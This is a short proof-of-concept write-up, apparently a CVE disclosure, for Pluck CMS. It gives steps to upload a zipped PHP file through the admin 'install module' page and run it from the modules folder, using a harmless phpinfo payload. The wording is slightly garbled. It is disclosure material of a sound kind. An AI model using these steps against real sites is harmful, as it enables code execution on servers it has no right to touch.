 The environment can be downloaded at https://github.com/pluck-cms/pluck


Set up the login address as follows
http://127.0.0.1/CVE-Target/pluck/login.php

Login to proceed to enter when specified page below
http://127.0.0.1/CVE-Target/pluck/admin.php?action=installmodule

To upload a file in install modules, prepare a test.php file with <? php phpinfo(); ? >. Decompress it into a zip file for uploading. The file is stored in the following locations:
http://127.0.0.1/CVE-Target/pluck/data/modules/test/test.php

In /data/modules/zip name/file name
